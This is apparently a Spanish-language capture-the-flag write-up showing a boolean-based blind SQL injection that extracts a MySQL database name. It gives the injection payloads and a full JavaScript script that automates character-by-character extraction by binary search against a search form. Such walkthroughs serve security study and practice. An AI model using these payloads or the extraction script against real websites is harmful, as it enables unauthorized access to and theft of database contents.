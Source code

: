 # CTF Boolean-Based Blind SQL Injection

## Información
- **Tipo**: Boolean-Based Blind SQL Injection
- **Objetivo**: Extraer el nombre de la base de datos

## Paso 1: Confirmación del Motor de Base de Datos

**Comando de prueba:**
```sql
' OR (SELECT database()) IS NOT NULL -- 
```

**Resultado**: `true` → Confirmado **MySQL/MariaDB**

> **Nota**: Para otros motores se usaría:
> - PostgreSQL: `current_database()`
> - SQL Server: `DB_NAME()`
> - SQLite: `pragma_database_list`

## Paso 2: Configuración de la Función Tester

**Función JavaScript para automatizar las pruebas:**
```javascript
const test = (payload) =>
  fetch(location.href,{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'search='+encodeURIComponent(payload)
  }).then(r=>r.text()).then(h=>/in stock/i.test(h)); // true = "in stock"
```

**Pruebas de validación:**
```javascript
await test(`' OR 1=1 -- `);   // true
await test(`' OR 1=2 -- `);   // false
```

## Paso 3: Extracción de la Longitud del Nombre de la BD

**Función de búsqueda binaria para longitud:**
```javascript
async function dbLen() {
  let lo = 1, hi = 64;
  while (lo < hi) {
    const mid = Math.floor((lo+hi+1)/2);
    if (await test(`' OR LENGTH(database())>=${mid} -- `)) lo = mid;
    else hi = mid-1;
  }
  return lo;
}
```

**Ejecución:**
```javascript
const length = await dbLen();
console.log('Longitud de la BD:', length);
```

## Paso 4: Extracción de Cada Carácter

**Función para obtener carácter por posición:**
```javascript
async function charAt(pos) {
  let lo = 32, hi = 122; // rango ASCII visible
  while (lo < hi) {
    const mid = Math.floor((lo+hi+1)/2);
    if (await test(`' OR ASCII(SUBSTRING(BINARY database(),${pos},1))>=${mid} -- `)) lo = mid;
    else hi = mid-1;
  }
  return String.fromCharCode(lo);
}
```

## Paso 5: Reconstrucción del Nombre Completo

**Script principal para extraer el nombre:**
```javascript
(async () => {
  const L = await dbLen();
  let name = '';
  for (let i=1; i<=L; i++) {
    name += await charAt(i);
    console.log('→', name);
  }
  console.log('DATABASE =', name);
})();
```

## Resultado

✅ **Nombre de la base de datos**: `echo_store`

## Resumen

| Paso | Comando | Propósito |
|------|---------|-----------|
| 1 | `' OR (SELECT database()) IS NOT NULL -- ` | Detectar motor MySQL/MariaDB |
| 2 | `' OR 1=1 -- ` | Validar inyección booleana (true) |
| 3 | `' OR LENGTH(database())>=${mid} -- ` | Obtener longitud del nombre BD |
| 4 | `' OR ASCII(SUBSTRING(BINARY database(),${pos},1))>=${mid} -- ` | Extraer cada carácter |

## Técnicas

- **Boolean-Based Blind SQLi**: Explotación basada en respuestas true/false
- **Búsqueda Binaria**: Optimización para reducir número de requests
- **Extracción ASCII**: Conversión de códigos ASCII a caracteres
- **Automatización JavaScript**: Scripts para acelerar el proceso

## Notas

- Se utilizó `BINARY` en la función `SUBSTRING` para evitar problemas de case sensitivity
- El rango ASCII (32-122) cubre todos los caracteres visibles comunes
- La función `test()` detecta el patrón "in stock" como indicador de condición verdadera
- La búsqueda binaria reduce el tiempo de ejecución comparado con fuerza bruta

---
